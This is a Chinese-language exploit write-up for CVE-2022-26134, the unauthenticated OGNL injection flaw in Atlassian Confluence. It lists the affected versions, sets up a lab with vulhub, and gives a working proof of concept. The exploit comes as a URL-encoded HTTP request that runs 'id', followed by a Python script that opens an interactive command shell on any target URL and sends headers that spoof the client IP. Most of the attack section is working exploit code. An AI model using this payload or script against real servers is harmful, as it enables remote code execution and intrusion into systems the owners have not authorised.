 # CVE-2022-26134

> **Create by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Atlassian Confluence OGNL表达式注入命令执行漏洞



# 0x01 漏洞概述

Atlassian Confluence 是一款各企业广泛使用的 wiki 系统。在Atlassian Confluence Server and Data Center上存在OGNL 注入漏洞，远程攻击者在未经身份验证的情况下，可构造OGNL表达式进行注入，实现在Confluence Server或Data Center上执行任意代码。

# 0x02 影响范围

- 1.3.0 <= Confluence Server and Data Center < 7.4.17
- Confluence Server and Data Center 7.12.5
- 7.13.0 <= Confluence Server and Data Center < 7.13.7
- 7.14.0 <= Confluence Server and Data Center < 7.14.3
- 7.15.0 <= Confluence Server and Data Center < 7.15.2
- 7.16.0 <= Confluence Server and Data Center < 7.16.4
- 7.17.0 <= Confluence Server and Data Center < 7.17.4
- 7.18.0 <= Confluence Server and Data Center < 7.18.1

# 0x03 环境搭建

使用vulhub搭建

执行如下命令启动一个Confluence Server 7.13.6：

```
cd confluence/CVE-2022-26134
docker compose up -d
```

环境启动后，访问 `http://your-ip:8090` 安装向导，选择“试用安装”，然后会要求填写许可证密钥，需要向 Atlassian 申请 Confluence Server 测试证书。

在数据库配置页面，填写数据库地址db、数据库名称confluence、用户名postgres、密码postgres。

![Untitled](image/Untitled.png)

# 0x04 漏洞复现

## 方式一：通过POC

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close

```

![Untitled](image/Untitled%201.png)

其中使用到的OGNL表达式如下：

```
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}。
```

## 方式二：通过脚本

```
# CVE编号：cve-2022-26134
# By A-little-dragon

from datetime import datetime
import requests
from urllib.parse import quote

def GetTime():
    return datetime.strftime(datetime.now(), '%Y-%m-%d %H:%M:%S')

headers = {
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36",
    "Accept-Encoding": "gzip, deflate, br, zstd",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Pragma": "no-cache",
    "Priority": "u=0, i",
    "Sec-Ch-Ua": '"Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"',
    "Sec-Ch-Ua-Mobile": "?0",
    "Sec-Ch-Ua-Platform": '"Windows"',
    "Sec-Fetch-Dest": "document",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "none",
    "Sec-Fetch-User": "?1",
    "Upgrade-Insecure-Requests": "1",
    "Ali-Cdn-Real-Ip": "localhost",
    "Cache-Control": "no-cache",
    "Cdn-Real-Ip": "localhost",
    "Cdn-Src-Ip": "localhost",
    "Cf-Connecting-Ip": "localhost",
    "Client-Ip": "localhost",
    "Forwarded": "localhost",
    "Forwarded-For": "localhost",
    "Proxy-Client-Ip": "localhost",
    "True-Client-Ip": "localhost",
    "Wl-Proxy-Client-Ip": "localhost",
    "X-Cluster-Client-Ip": "localhost",
    "X-Forwarded": "localhost",
    "X-Forwarded-For": "localhost",
    "X-Originating-Ip": "localhost",
    "X-Real-Ip": "localhost",
    "X-Remote-Addr": "localhost",
    "X-Remote-Ip": "localhost"
}

def start():
    url = input("Set Target URL > ")
    print(f"[+] {GetTime()} Start executing the attack program!")
    while True:
        try:
            command = input("$ > ")
            res = requests.get(
                url=url + f"/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22{quote(command)}%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/",
                headers=headers, allow_redirects=False)
            if res.status_code == 302:
                print(f"[+] {GetTime()} 执行成功！")
                print(res.headers.get("X-Cmd-Response"))
            else:
                print(f"[-] {GetTime()} 执行失败！")
        except Exception as e:
            print(f"[-] {GetTime()} 执行失败,原因如下：", e)

if __name__ == '__main__':
    start()

```

![Untitled](image/Untitled%202.png)
